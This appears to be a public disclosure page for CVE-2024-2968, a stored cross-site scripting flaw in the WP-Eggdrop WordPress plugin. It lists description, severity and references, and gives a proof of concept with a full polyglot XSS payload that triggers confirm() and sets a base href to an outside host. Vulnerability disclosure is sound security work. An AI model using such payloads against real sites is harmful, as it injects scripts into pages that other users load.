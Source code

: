 ```yaml
---
layout: page
title: CVE-2024-2968
subtitle: WP-Eggdrop <= 0.1 - Authenticated (Admin+) Stored Cross-Site Scripting
---
```

## Description
The WP-Eggdrop plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 0.1 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N

## Affected Version
    <= 0.1

## PoC :
- Go to Settings/WP-Eggdrop Settings
- Input payload JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*')/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1331+6)}//><Base/Href=//ener1-s3c.github.io/\\76-->
- Save & payload executed.

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-eggdrop/wp-eggdrop-01-authenticated-admin-stored-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-2968
- https://nvd.nist.gov/vuln/detail/CVE-2024-2968


